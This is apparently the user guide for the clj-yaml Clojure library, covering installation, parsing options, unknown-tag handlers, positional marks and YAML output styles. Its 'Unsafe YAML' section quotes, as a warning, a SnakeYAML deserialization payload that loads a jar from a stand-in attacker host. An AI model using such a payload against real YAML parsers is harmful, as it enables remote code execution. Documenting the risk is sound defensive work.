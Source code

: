 = User Guide
:toclevels: 5
:toc:
// DO NOT EDIT: the lib-version parameter is automatically updated by bb publish
:lib-version: 0.7.169

== Audience
You want to learn more about how to use the clj-yaml library from your app, library or script.

== Introduction

Clj-yaml is a Clojure wrapper over https://bitbucket.org/snakeyaml/snakeyaml/src/master/[SnakeYAML].

=== History

- Feb 2010 - https://github.com/lancepantz/clj-yaml[lancepantz/clj-yaml] is created
- Dec 2013 - https://github.com/CircleCI-Archived/clj-yaml[circleci/clj-yaml] picks up the torch
- Jan 2019 - clj-commons adopts clj-yaml where it can get the ongoing love and care that it needs

== Installation

=== Babashka

No installation required.
Clj-yaml is built into babashka.

=== Leiningen/Boot

[source,clojure,subs="attributes+"]
----
[clj-commons/clj-yaml "{lib-version}"]
----

=== Clojure CLI/`deps.edn`

[source,clojure,subs="attributes+"]
----
clj-commons/clj-yaml {:mvn/version "{lib-version}"}
----

=== As Git Dependency

To get the latest changes that are not yet released to Clojars, you can use this library as a git dependency:

[source,clojure]
----
$ cat deps.edn
{:deps {clj-commons/clj-yaml {:git/url "https://github.com/clj-commons/clj-yaml"
                              :git/sha "05eaca35c34c092ffdd2e620ef07962ce147a88b"}}}

$ clj -X:deps prep
$ clj -M -e "(require '[clj-yaml.core :as yaml])"
----

Replace the `:git/sha` value as appropriate.

== Usage

=== Internal vs Public API

When the clj-commons/clj-yaml team adopted clj-yaml it made some assumptions about the clj-yaml public API.
It turns out folks are using more of clj-yaml than we originally expected.

We encourage you to stick to the higher level functions as documented in the `clj-yaml.core` namespace.

If you do find yourself needing to use the lower level functions, please let us know.
Perhaps you are doing so to overcome a limitation in clj-yaml that we could address to everyone's benefit.

Note that:

* babashka only exposes the higher level functions.
* this user guide only describes and promotes usage of higher level functions

=== Quick Start

[source,clojure]
----
(require '[clj-yaml.core :as yaml])

(yaml/generate-string
  [{:name "John Smith", :age 33}
   {:name "Mary Smith", :age 27}])
;; => "- {name: John Smith, age: 33}\n- {name: Mary Smith, age: 27}\n"

(yaml/parse-string "
- {name: John Smith, age: 33}
- name: Mary Smith
  age: 27
")
;; => ({:name "John Smith", :age 33}
;;     {:name "Mary Smith", :age 27})
----

=== Parsing YAML

==== Key Conversion
By default, YAML keys are converted to Clojure keywords. To prevent this, add the `:keywords false` option to the `parse-string` function:

[source,clojure]
----
(yaml/parse-string "
- {name: John Smith}
" :keywords false)
;; => ({"name" "John Smith"})
----

TIP: The `:keywords` option defaults to `true` for historical reasons.
Depending on the YAML you are parsing, you very well might want to set this to `false`.
When clj-yaml detects a key that cannot be converted to a Clojure keyword, it will leave it unconverted.
Keep in mind detection is not sophisticated and can result in keywords that are illegal and unreadable.

==== Unknown tags [[unknown-tags]]
Unknown tags can be handled by passing a handler function via the `:unknown-tag-fn` option.
The handler function is provided a map which includes `:tag` and `:value` keys.
Note that the value passed to the `unknown-tag-fn` is a string if it's a scalar, regardless of the quoting (or lack thereof) of the scalar value.

[source,clojure]
----
;; drop unknown tags
(yaml/parse-string "!Base12 10" :unknown-tag-fn :value
;; => "10"

;; or do some smart convertion
(yaml/parse-string "!Base12 10"
                   :unknown-tag-fn (fn [{:keys [tag value]}]
                                      (if (= "!Base12" tag)
                                          (Integer/parseInt value 12)
                                          value)))
;; => 12
----

==== Unsafe YAML [[unsafe]]
Clj-yaml optionally supports the creation of Java classes.
This is considered unsafe.

IMPORTANT: Be very wary of specifying `:unsafe true` unless you completely trust your YAML inputs.
Consider instead using `:unknown-tag-fn` for fine and deliberate control.

An example of some malicious YAML is https://j0vsec.com/post/cve-2021-25738/[well described by J0VSEC].
Here's the dangerous snippit described:

[source, yaml]
----
some_var: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://attacker-server.tld/poc.jar"]]]]
----

Also security related are `:allow-recursive-keys` and `:max-aliases-for-collections` options.

==== Positional Data [[mark]]
You can ask clj-yaml to return parsed YAML with extra positional data markers via the `:mark true` option.

[source,clojure]
----
(yaml/parse-string "
- name: Mary Smith
  age: 27
" :mark true)
;; => {:start {:line 1, :index 1, :column 0},
;;     :end {:line 3, :index 30, :column 0},
;;     :unmark
;;     ({:start {:line 1, :index 3, :column 2},
;;       :end {:line 3, :index 30, :column 0},
;;       :unmark
;;       {{:start {:line 1, :index 3, :column 2},
;;         :end {:line 1, :index 7, :column 6},
;;         :unmark "name"}
;;        {:start {:line 1, :index 9, :column 8},
;;         :end {:line 1, :index 19, :column 18},
;;         :unmark "Mary Smith"},
;;        {:start {:line 2, :index 22, :column 2},
;;         :end {:line 2, :index 25, :column 5},
;;         :unmark "age"}
;;        {:start {:line 2, :index 27, :column 7},
;;         :end {:line 2, :index 29, :column 9},
;;         :unmark 27}}})}
----

In reality, the `:start` `:end` and `:unmark` maps are internally a record and can be recognized via `marked?` and unwrapped via `unmark`.

=== Generating YAML

==== Dumper Options [[dumper-options]]
Different flow styles (`:auto`, `:block`, `:flow`) allow customization of how YAML is rendered.

To demonstrate let's setup `some-data` to play with.

[source,clojure]
----
(def some-yaml "
todo:
  - name: Fix issue
    responsible:
      name: Rita
")

(def some-data (yaml/parse-string some-yaml))
----

To select the `:block` flow style:
[source,clojure]
----
(yaml/generate-string some-data :dumper-options {:flow-style :block})
----

results in a string of YAML, that when printed:
[source,yaml]
----
todo:
- name: Fix issue
  responsible:
    name: Rita
----

The same but with the `:flow` style results in:
[source,yaml]
----
{todo: [{name: Fix issue, responsible: {name: Rita}}]}
----

And finally the `:auto` style (the default) renders:
[source,yaml]
----
todo:
- name: Fix issue
  responsible: {name: Rita}
----

Use the `:indent` and `:indicator-indent` options to adjust indentation:

[source,clojure]
----
(yaml/generate-string some-data :dumper-options {:indent 6
                                                 :indicator-indent 3
                                                 :flow-style :block})
----

results in:
[source,yaml]
----
todo:
   -  name: Fix issue
      responsible:
            name: Rita
----

`:indent` must always be larger than `:indicator-indent`.
If it is only 1 higher, the indicator will be on a separate line:

[source,clojure]
----
(yaml/generate-string some-data :dumper-options {:indent 2
                                                 :indicator-indent 1
                                                 :flow-style :block})
----
results in:
[source,yaml]
----
todo:
 -
  name: Fix issue
  responsible:
    name: Rita
----
